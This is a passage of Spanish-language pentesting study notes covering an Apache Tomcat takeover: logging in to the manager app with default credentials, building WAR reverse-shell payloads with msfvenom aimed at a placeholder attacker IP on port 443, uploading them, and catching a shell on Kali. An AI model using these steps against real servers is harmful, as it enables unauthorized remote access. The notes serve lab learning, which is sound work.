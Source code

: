 - Explotar servidor Apache tomcat.
- Por lo general esta vulnerabilidad se puede encontrar en el puerto 8080, ahí mismo vemos que es un apache tomcat.

![](../Imagenes/Pasted%20image%2020241220151757.png)

- Vamos a la pagina
- Cuando uno instala un ==tomcat==, por defecto sale esto:

![](../Imagenes/Pasted%20image%2020241220151912.png)

- Si apretamos en ==manager webapp==, nos saldrá un login donde se podría configurar el ==tomcat==.

![](../Imagenes/Pasted%20image%2020241220152047.png)

- Cuando se instala un ==tomcat==, por defecto ya viene con unas credenciales por defecto.
- Para saber la lista de estas credenciales vamos a ingresar a una URL lo siguiente:
```
hacktricks apache tomcat default credentials
```

![](../Imagenes/Pasted%20image%2020241220152411.png)

- Tenemos las posibles credenciales.
- Ya estando dentro, tenemos un lugar donde subir archivos.

![](../Imagenes/Pasted%20image%2020241220152645.png)

- Vamos a hacer un payloads con ==msfvenom==.
```
msfvenom -p java/shell_reverse_tcp LHOST=(IP_ATACANTE) LPORT=443 -f war -o (NOMBRE)
```
==IMPORTANTE, APACHE FUNCIONA CON JAVA==

![](../Imagenes/Pasted%20image%2020241220153257.png)

- Listo el payloads.
- Es recomendado crear 2, así si uno no funciona el otro lo ara.
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP_ATACANTE) LPORT=443 -f war -o (NOMBRE)
```
- La diferencia es que la primera es /shell y el segundo es /jsp.

![](../Imagenes/Pasted%20image%2020241220153608.png)

- Probamos.

![](../Imagenes/Pasted%20image%2020241220153703.png)

- Subimos los dos payloads, vamos a probar cual nos sirve.
- Dejamos Kali en escucha.
- El primero si nos dejo hacer el reverse y el segundo, no.

![](../Imagenes/Pasted%20image%2020241220153909.png)
